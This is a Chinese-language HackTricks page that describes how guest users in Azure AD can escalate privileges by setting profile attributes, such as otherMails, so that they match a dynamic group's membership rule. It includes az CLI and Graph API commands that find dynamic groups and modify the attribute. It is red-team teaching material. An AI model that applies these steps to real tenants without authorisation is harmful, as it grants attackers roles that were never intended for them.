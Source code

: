 # Az - 动态组权限提升

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

**动态组**是配置了一组**规则**的组，所有符合规则的**用户或设备**将被添加到该组。每当用户或设备的**属性**被**更改**时，动态规则会被**重新检查**。当**新规则**被**创建**时，所有设备和用户都会被**检查**。

动态组可以被分配**Azure RBAC 角色**，但**无法**将**AzureAD 角色**添加到动态组中。

此功能需要 Azure AD Premium P1 许可证。

## 权限提升

请注意，默认情况下，任何用户都可以在 Azure AD 中邀请访客，因此，如果动态组的**规则**根据可以在新**访客**中**设置**的**属性**授予用户**权限**，则可以创建具有这些属性的**访客**并**提升权限**。访客也可以管理自己的个人资料并更改这些属性。

获取允许动态成员资格的组：**`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### 示例

* **规则示例**：`(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **规则描述**：任何具有包含字符串 'security' 的次要电子邮件的访客用户将被添加到该组

对于访客用户电子邮件，接受邀请并检查**该用户**在 [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView) 的当前设置。\
不幸的是，该页面不允许修改属性值，因此我们需要使用 API：

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## 参考文献

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
